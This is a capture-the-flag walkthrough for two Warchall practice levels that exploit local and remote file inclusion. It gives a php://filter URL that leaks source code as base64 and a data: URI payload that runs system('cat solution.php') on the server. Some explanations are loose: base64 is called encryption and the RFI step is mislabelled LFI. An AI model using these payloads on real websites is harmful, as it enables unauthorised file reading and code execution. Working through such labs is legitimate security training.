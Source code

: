 # Warchall





## Live LFI
One reason why I wanted the warchall box is to offer more realistic webhacking challenges.
You may now try the Live LFI challenge that is hosted on it.

### Level14
Your objective is to retrieve the content of the `solution.php` file using LFI. Follow the steps below to complete the challenge.

1- Visit the following link in the web browser:
```
https://lfi.warchall.net/index.php?lang=solution.php
```
2- Try using the LFI vulnerability by appending the following payload to the URL:
```
https://lfi.warchall.net/?lang=php://filter/read=convert.base64-encode/resource=solution.php
```
This payload utilizes the `php://filter` stream to encode the content of `solution.php` in base64.

3- Copy the encrypted base64-encoded text from the webpage and decode it using the following bash command in your terminal:
```bash
  echo "text_encrypted" | base64 -d
```

## Live RFI
One reason why I wanted the warchall box is to offer more realistic webhacking challenges.
You may now try the Live RFI challenge hosted on it.
### Level 15
Your objective is to retrieve the content of the `solution.php` file using RFI. Follow the steps below to complete the challenge.
1- Visit the following link in the web browser:
```
https://rfi.warchall.net/index.php?lang=solution.php
```
2- Try using the LFI vulnerability by appending the following payload to the URL:
```
https://rfi.warchall.net/index.php?lang=data:text/plain,%3C?php%20system(%22cat%20solution.php%22)?%3E%E3%80%82
```
The lang parameter of the URL is set to data:text/plain, the string <?php system("cat solution.php")?>. This parameter tells the PHP server to return the content of the PHP file solution.php as plain text.
The string <?php system("cat solution.php")?> is a PHP instruction that calls the function system(). The function system() executes a program or script as a child process. In this case, the program or script executed is the program cat. The program cat reads the contents of a file and displays them on the standard output.
3- After visiting the link above, please inspect the site :
```
  right click and choose the inspect option
```

